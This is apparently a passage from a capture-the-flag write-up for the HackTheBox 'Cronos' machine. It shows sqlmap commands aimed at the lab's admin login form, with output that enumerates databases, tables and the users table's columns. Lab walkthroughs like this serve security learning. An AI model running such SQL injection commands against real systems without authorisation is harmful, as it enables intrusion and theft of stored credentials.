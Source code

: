 ```
[12:06:29] [INFO] fetching database names
[12:06:29] [INFO] fetching number of databases
[12:06:29] [INFO] retrieved: 2
[12:06:31] [INFO] retrieved: information_schema
[12:07:35] [INFO] retrieved: admin
available databases [2]:
[*] admin
[*] information_schema

[12:07:51] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/admin.cronos.htb'

[*] ending @ 12:07:51 /2022-01-06/
```

Checking what are the tables in admin database

```
$ sqlmap -u 'http://admin.cronos.htb/index.php' --data="username=hacked&password=server&form=submit" --dbms=mysql --tables -D admin

		...
back-end DBMS: MySQL >= 5.0.0
[12:11:39] [INFO] fetching tables for database: 'admin'
[12:11:39] [INFO] fetching number of tables for database 'admin'
[12:11:39] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                 
		...
users
Database: admin
[1 table]
+-------+
| users |
+-------+
```

And the columns in the users table
```
$ sqlmap -u 'http://admin.cronos.htb/index.php' --data="username=hacked&password=server&form=submit" --dbms=mysql --columns -T users

		...
[12:14:02] [INFO] fetching columns for table 'users' in database 'admin'
[12:14:02] [INFO] retrieved: 3
[12:14:05] [INFO] retrieved: id
[12:14:12] [INFO] retrieved: int(6) unsigned
[12:15:14] [INFO] retrieved: username
[12:15:39] [INFO] retrieved: varchar(30)
[12:16:17] [INFO] retrieved: password
[12:16:47] [INFO] retrieved: varchar(100)
Database: admin
Table: users
[3 columns]
+----------+-----------------+
| Column   | Type            |
+----------+-----------------+
| id       | int(6) unsigned |
| password | varchar(100)    |
| username | varchar(30)     |
+----------+-----------------+
		...
```
